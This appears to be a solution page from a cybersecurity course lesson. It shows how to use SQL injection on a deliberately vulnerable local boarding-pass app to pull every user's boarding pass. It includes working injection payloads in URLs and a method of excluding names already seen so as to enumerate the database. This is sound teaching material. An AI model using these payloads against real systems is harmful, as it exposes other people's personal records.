 > ***Note:*** This is just *one possible solution* of many! Any solution that lets you programmatically access boarding passes of all other users is totally acceptable!

Let's think about our single-user solution:
```
http://localhost:8080/confirmation/01729222'%20OR%20'1'='1
```

This ultimately feeds the following string into the SQL statement:
```
01729222' OR '1'='1
```

This results in us receiving the boarding pass of "Hannah Rodriguez", although *really* what's happening is that the SQL query is returning *all* users and the app is dropping all but the first.

What happens if we manually hardcode an exception for "Hannah Rodriguez" into our URL string? For example:
```
01729222' OR ('1'='1' AND name != 'Hannah Rodriguez') OR '1'='2
```

(Remember we must end with an un-terminated string! In the above, we satisfy this with the "open" ```'2```.)

Trying this out, we can send a request to [http://localhost:8080/confirmation/01729222'%20OR%20('1'='1'%20AND%20name%20!=%20'Hannah%20Rodriguez')%20OR%20'1'='2](http://localhost:8080/confirmation/01729222'%20OR%20('1'='1'%20AND%20name%20!=%20'Hannah%20Rodriguez')%20OR%20'1'='2) and ultimately receive a new boarding pass!

![boarding pass 3](https://git.generalassemb.ly/andymartin/cybersecurity/blob/master/day-three/sql-lesson/screenshots/boarding_pass_3.jpeg?raw=true)

We can now programmatically exclude previously observed usernames to eventually pull in all boarding passes in the database!
